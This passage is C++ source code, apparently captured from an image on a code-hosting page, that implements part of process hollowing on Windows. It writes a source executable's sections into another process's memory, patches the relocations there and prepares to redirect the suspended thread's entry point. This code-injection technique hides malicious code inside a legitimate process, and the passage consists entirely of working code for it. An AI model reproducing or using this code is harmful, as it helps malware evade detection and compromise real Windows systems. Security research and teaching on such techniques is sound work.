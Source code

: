 ```cpp
		WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
		sourceImageSection++;
	}

	// get address of the relocation table
	IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
	
	// patch the binary with relocations
	sourceImageSection = sourceImageSectionOld;
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
		BYTE* relocSectionName = (BYTE*)".reloc";
		if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0) 
		{
			sourceImageSection++;
			continue;
		}

		DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
		DWORD relocationOffset = 0;

		while (relocationOffset < relocationTable.Size) {
			PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
			relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
			DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
			PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

			for (DWORD y = 0; y < relocationEntryCount; y++)
			{
				relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

				if (relocationEntries[y].Type == 0)
				{
					continue;
				}

				DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
				DWORD patchedBuffer = 0;
				ReadProcessMemory(destProcess,(LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
				patchedBuffer += deltaImageBase;

				WriteProcessMemory(destProcess,	(PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
				int a = GetLastError();
			}
		}
	}

	// get context of the dest process thread
	LPCONTEXT context = new CONTEXT();
	context->ContextFlags = CONTEXT_INTEGER;
	GetThreadContext(pi->hThread, context);

	// update dest image entry point to the new entry point of the source image and resume dest image thread
	DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
```